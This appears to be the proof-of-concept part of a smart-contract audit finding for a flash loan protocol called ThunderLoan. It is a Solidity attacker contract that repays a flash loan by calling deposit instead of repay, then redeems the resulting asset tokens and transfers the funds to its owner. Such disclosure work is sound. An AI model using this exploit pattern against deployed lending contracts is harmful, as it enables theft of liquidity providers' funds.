 ## PoC
It can be demonstrated by deploying a Flash Loan Receiver contract given below. Paste the code inside ```test/mocks/AttackerFlashLoanReceiver.sol```.

```AttackerFlashLoanReceiver.sol```
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";
import { ThunderLoan } from "../../src/protocol/ThunderLoan.sol";

contract AttackerFlashLoanReceiver is IFlashLoanReceiver {
    error AttackerFlashLoanReceiver__NotThunderLoan();
    error AttackerFlashLoanReceiver__NotOwner();

    address public owner;
    ThunderLoan public thunderLoan;

    constructor(address thunderLoanAddr) {
        owner = msg.sender;
        thunderLoan = ThunderLoan(thunderLoanAddr);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        if (msg.sender != address(thunderLoan)) {
            revert AttackerFlashLoanReceiver__NotThunderLoan();
        }   

        if (initiator != owner) {
            revert AttackerFlashLoanReceiver__NotOwner();
        }

        IERC20(token).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);

        return true;
    }

    function withdraw(address token, uint256 amountOfAssetToken) external {
        thunderLoan.redeem(IERC20(token), amountOfAssetToken);
        uint256 amount = IERC20(token).balanceOf(address(this));
        bool success = IERC20(token).transfer(owner, amount);
        require(success);
    } 
}
```
